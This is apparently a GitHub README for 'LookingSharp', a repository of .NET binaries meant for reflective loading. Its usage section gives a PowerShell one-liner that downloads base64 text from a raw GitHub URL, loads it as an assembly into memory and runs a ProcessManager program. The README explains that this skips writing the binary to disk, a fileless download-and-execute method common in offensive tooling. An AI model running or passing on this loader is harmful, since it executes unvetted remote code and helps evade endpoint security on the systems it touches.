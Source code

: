 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading.


# Usage:
```
$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

This will remove the step of downloading the binary on disk and just load it straight into memory.
